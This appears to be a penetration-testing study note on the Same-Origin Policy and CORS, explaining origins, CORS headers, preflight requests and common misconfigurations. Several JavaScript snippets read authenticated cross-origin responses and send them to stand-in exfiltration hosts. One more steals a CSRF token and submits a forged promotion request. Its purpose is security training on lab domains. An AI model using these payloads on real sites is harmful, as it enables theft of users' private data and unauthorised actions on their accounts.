 ```yaml
---
description: Javascript | Exfiltrate | SOP | CORS | Bypass | Tokens
---
```


# Same-Origin Policy & CORS

### <mark style="color:yellow;">Same-Origin Policy</mark>

SOP ensures that scripts running on one website (origin) cannot acces or manipulate resources on a different website (origin).&#x20;

#### An origin is defined by 3 URL components:

* **Scheme**: Protocol used (http, https , ftp)
* **Host**: Domain name or IP (example.com)
* **Port**: Network port (80 or 443)

{% hint style="info" %}
Two URLs share the same origin **only** if all three components are identical.
{% endhint %}

#### Different Schemes

`http://example.com` and `https://example.com` are **different origins** because of the scheme.

#### Different Hosts

`https://academy.zencorp.com` and `https://zencorp.com` are **different origins** because of the host.

#### Different Ports

`https://zencorp.com` and `https://zencorp.com:8080` are **different origins** because of the port.

### <mark style="color:yellow;">Why is SOP Important?</mark>

In summary, the **Same-Origin Policy** is a foundational security feature that isolates websites from one another. Without SOP, a malicious website could access senstive data for example:

{% hint style="info" %}
**Access Sensitive Data**

If you are logged into `bank.com`, a malicious site (`evil.com`) could run JavaScript to steal your bank account details.

**Manipulate Resources**

`evil.com` could modify your data or trigger unwanted actions on another site you are logged into.
{% endhint %}

### <mark style="color:yellow;">Cross-Origin Resource Sharing (CORS)</mark>&#x20;

**Cross-Origin Resource Sharing (CORS)** is a W3C standard that allows a web server to define exceptions to the Same-Origin Policy (SOP). It enables website to securely share resources across different origins by defining trusted origins and HTTP methods.

> Imagine a web application hosted at `http://vulnerablesite.htb` fetching data from an API at `http://api.vulnerablesite.htb`. SOP blocks these requests however using CORS it allows the API to permit requests from `http://vulnerablesite.htb`, giving access to the data.

### <mark style="color:yellow;">How does CORS work?</mark>

{% stepper %}
{% step %}
**Access-Control-Allow-Origin**

Specifies which origins can access the resource.
{% endstep %}

{% step %}
**Access-Control-Allow-Methods**

Lists allowed HTTP methods (e.g., GET, POST).
{% endstep %}

{% step %}
**Access-Control-Allow-Headers**

Lists permitted HTTP headers.
{% endstep %}

{% step %}
**Access-Control-Allow-Credentials**

Allows requests with credentials (cookies, tokens).
{% endstep %}

{% step %}
**Access-Control-Max-Age**

Defines how long CORS info is cached.
{% endstep %}
{% endstepper %}

### <mark style="color:yellow;">PreFlight Requests</mark>

For non-simple requests like using custom headers like application/json a OPTIONS request is first send checking if the server allows it. This request contains:

* **Access-Control-Request-Method**: HTTP method of the actual request.
* **Access-Control-Request-Headers**: Custom headers in the actual request.

If the server responds with the right CORS headers the browsers proceeds with the request.&#x20;

{% hint style="info" %}
A front-end sends a POST request with `application/json`. The API must:

* Allow `http://vulnerablesite.htb` in `Access-Control-Allow-Origin`.
* Permit `POST` in `Access-Control-Allow-Methods`.
* Accept `Content-Type: application/json` in `Access-Control-Allow-Headers`.
{% endhint %}

### <mark style="color:yellow;">CORS Misconfigurations</mark>

Misconfigured CORS often exploits the `Access-Control-Allow-Credentials: true` header to perform authenticated requests in the victim’s context. If an attacker-controlled domain gains SOP exceptions:

### <mark style="color:yellow;">Arbitrary Origin Reflection</mark>

The `Access-Control-Allow-Origin` header specifies which origins bypass SOP. A wildcard (`*`) allows all origins but cannot be combined with `Access-Control-Allow-Credentials: true`. To allow multiple origins, some applications reflect the `Origin` header value in `Access-Control-Allow-Origin`, potentially allowing any origin.

<details>

<summary>example_script.js</summary>

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://api.vulnerablesite.moc/data', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      location = 'http://exfiltrate.moc/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>
```

</details>



### <mark style="color:yellow;">**Improper Origin Whitelist**</mark>

Applications might validate origins using prefix or suffix matching, e.g., allowing origins ending with `vulnerablesite.htb`. This can lead to vulnerabilities if the check is too broad, permitting attacker-controlled subdomains like `attackervulnerablesite.htb`.

### <mark style="color:yellow;">Trusted</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`null`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">Origin</mark>

The `Access-Control-Allow-Origin` header can trust the `null` origin, often due to misinterpretation. A `null` origin can be forced using a sandboxed iframe.

<details>

<summary>sandbox.js</summary>

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://api.vulnerablesite.moc/data', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      location = 'http://exfiltrate.moc/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>"></iframe>
```

</details>

### <mark style="color:yellow;">Exploitation of Internal Applications</mark>

Misconfigured internal applications trusting all origins (`*`) are vulnerable if accessed from an internal network. Attackers can craft payloads to exfiltrate internal data.

<details>

<summary>example.js</summary>

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://172.16.0.2/data', true);
    xhr.onload = () => {
      location = 'http://exfiltrate.moc/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>
```

</details>

### <mark style="color:yellow;">**Efficient Exfiltration**</mark>

To handle large responses using Javascript its possible to parse elements and use a POST request instead of GET for exfiltration. Also splitting large data into smaller requests.&#x20;

<details>

<summary>exfiltration.js</summary>

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://vulnerablesite.htb/profile.php', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      // parse the response
	  var doc = new DOMParser().parseFromString(xhr.response, 'text/html');

	  // exfiltrate only the interesting element
	  var msg = encodeURIComponent(doc.getElementById('private-message').innerHTML);
      location = 'https://exfiltrate.htb/log?data=' + btoa(msg);
    };
    xhr.send();
</script>
```

</details>

### <mark style="color:yellow;">Bypassing CSRF Tokens via CORS Misconfigurations</mark>

CORS misconfigurations can bypass CSRF defenses by exploiting improperly configured access controls. If `Access-Control-Allow-Credentials` is enabled, allowing session cookies with cross-origin requests, the Same-Origin policy can be bypassed.&#x20;

Misconfigured CORS allows attackers to read cross-origin responses and so retrieve a valid CSRF token from an endpoint.&#x20;

#### Prerequisites:

* SameSite = none must be set on the session cookie to enable cross-origin requests with credentials.
* Secure attribute must be used, so cookies are sent only over https.

<details>

<summary>get_csrft_token.js</summary>

```javascript
<script>
	// GET CSRF token
	var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://vulnerablesite.htb/profile.php', false);
    xhr.withCredentials = true;
    xhr.send();
    var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
	var csrftoken = encodeURIComponent(doc.getElementById('csrf').value);

	// do CSRF
    var csrf_req = new XMLHttpRequest();
    var params = `promote=htb-stdnt&csrf=${csrftoken}`;
    csrf_req.open('POST', 'https://vulnerablesite.htb/profile.php', false);
	csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    csrf_req.withCredentials = true;
    csrf_req.send(params);
</script>
```

</details>

### <mark style="color:yellow;">Combining Attack Vectors to Bypass SameSite Cookies</mark>

SameSite Cookies: Browsers decide if cookies should be sent based on the site ignoring port and subdomain differences.

* **SameSite**: `http://vulnerable.htb` and `http://sub.vulnerable.htb`
* **NOT SameSite**: `http://vulnerable.htb` and `https://vulnerable.htb`

To bypass this behavior:

* Check if a session cookie has `SameSite=La`x its sent with safe requests like `GET`.
* If an app uses `GET` for state-chaning actions, SameSite protection is bypassed.
* For `Strict` SameSite, combining a misconfigured endpoint with a client-side redirect can bypass the restriction.

{% hint style="info" %}
**How does it work?**

1. Client-side redirect occurs when target site redirects via HTML or JS instead of a server response.
2. This redirect is treated as SameSite, victim's cookies are sent even if `SameSite=Strict`.
{% endhint %}

